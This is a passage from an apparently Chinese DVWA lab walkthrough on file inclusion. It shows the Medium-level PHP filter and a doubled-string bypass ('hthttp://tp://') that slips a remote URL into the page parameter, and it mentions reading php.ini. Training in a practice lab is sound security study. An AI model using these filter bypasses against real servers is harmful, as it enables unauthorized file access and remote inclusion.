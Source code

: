 成功读取了服务器的php.ini文件

<img src="https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230730123251585.png" alt="image-20230730122622946" style="zoom:33%;" />



### Medium级别

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?> 
```

发现使用str_replace对http://,https:// 替换成空，对于str_replace函数进行的过滤，可以使用双写进行绕过

```
http://192.168.80.145/dvwa/vulnerabilities/fi/?page=hthttp://tp://www.baidu.com
```

![image-20230730150605926](imgs/b2cdb6083eccaf2f5be82d6f4151e8d9_MD5.png)

## File Upload

文件上传功能是大部分WEB应用的常用功能，网站允许用户自行上传头像、照片、一些服务类网站需要用户上传证明材料的电子档、电商类网站允许用户上传图片展示商品情况等。然而，看似不起眼的文件上传功能如果没有做好安全防护措施，就存在巨大的安全风险。

---
